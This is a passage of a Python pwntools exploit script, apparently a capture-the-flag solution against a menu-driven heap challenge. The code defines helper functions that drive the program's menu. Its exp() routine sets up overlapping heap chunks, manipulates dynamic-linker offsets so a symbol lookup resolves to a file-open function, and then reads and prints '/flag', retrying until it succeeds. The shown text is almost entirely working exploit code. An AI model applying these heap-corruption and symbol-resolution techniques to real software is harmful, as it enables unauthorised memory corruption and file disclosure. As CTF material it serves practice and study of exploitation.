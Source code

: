 ```python
    io.sendlineafter(b'idx', str(idx).encode())

def free(idx):
    io.sendlineafter(b'option:', b'3')
    io.sendlineafter(b'idx', str(idx).encode())

def edit(idx, pad):
    io.sendlineafter(b'option:', b'2')
    io.sendlineafter(b'idx', str(idx).encode())
    io.sendafter(b'data', pad)

def load(idx, filename):
    io.sendlineafter(b'option:', b'5')
    io.sendlineafter(b'idx', str(idx).encode())
    io.sendlineafter(b'filename', filename)

def exp():
    #---------------------- OVERLAPPING ----------------------#
    add(0, 0x100 - 0x30 - 0x10 - 0x10, b'asd')
    add(1, 0x100 - 0x20, p64(0x30000000) + p64(0))
    add(2, 0x10, b'asd')
    add(3, 0xfe00 - 0x10, b'asd')
    add(4, 0xff90, b'asd')
    free(2)
    add(5, 0x20, b'a' * 0x20)
    
    #------------------------ ATTACK ------------------------#
    LD_OFFSET = 0x1cef0 - 0x6000
    add(6, LD_OFFSET + 0x392e0 - 0x10, b'asd')
    
    load(0, b'/flag') # resolve `strstr`
    add(7, 0x300, b'\x08')
    load(0, b'asd') # resolve `r_open` to `f_open`
    load(0, b'/flag')
    
    show(0)

    pass

if __name__ == '__main__':
    while(True):
        try:
            exp()
            break
        except EOFError:
            io.close()
            # pause()
            io = conn()
    io.interactive()
```
